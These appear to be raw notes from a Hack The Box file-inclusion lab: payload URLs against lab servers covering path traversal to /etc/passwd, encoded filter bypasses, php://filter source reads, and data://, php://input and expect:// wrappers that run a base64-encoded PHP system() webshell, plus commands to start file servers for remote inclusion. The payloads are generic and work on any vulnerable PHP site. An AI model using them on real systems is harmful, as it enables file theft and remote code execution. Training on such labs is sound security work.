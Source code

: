 http://94.237.49.166:56586/index.php?language=../../../../etc/passwd
barry

http://94.237.49.166:56586/index.php?language=../../../../usr/share/flags/flag.txt
HTB{n3v3r_tru$t_u$3r_!nput}

languages//....//....//....//....//....//etc/passwd
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%65%74%63%2f%70%61%73%73%77%64

languages//....//....//....//....//....//flag.txt
http://83.136.255.150:55558/index.php?language=%6c%61%6e%67%75%61%67%65%73%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%66%6c%61%67%2e%74%78%74

HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}

fuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.253.251:45849/FUZZ.php
en                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
es                      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 275ms]
configure               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 276ms]

http://83.136.253.251:45849/index.php?language=php://filter/read=convert.base64-encode/resource=configure

echo "hash" | base64 -d #decrypt
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}

php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"


echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

curl -s -X POST --data '<?php system($_GET["c-m-d"]); ?>' "http://94.237.62.195:45255/index.php?language=php://input&cmd=id" | grep uid

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"

http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls /
http://94.237.62.195:45255/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt

HTB{d!$46l3_r3m0t3_url_!nclud3}

echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_includ

echo "<php? system($_GET['']); ?>"

sudo python3 -m http.server <LISTENING_PORT>
sudo python -m pyftpdlib -p 21
impacket-smbserver -smb2support share $(pwd)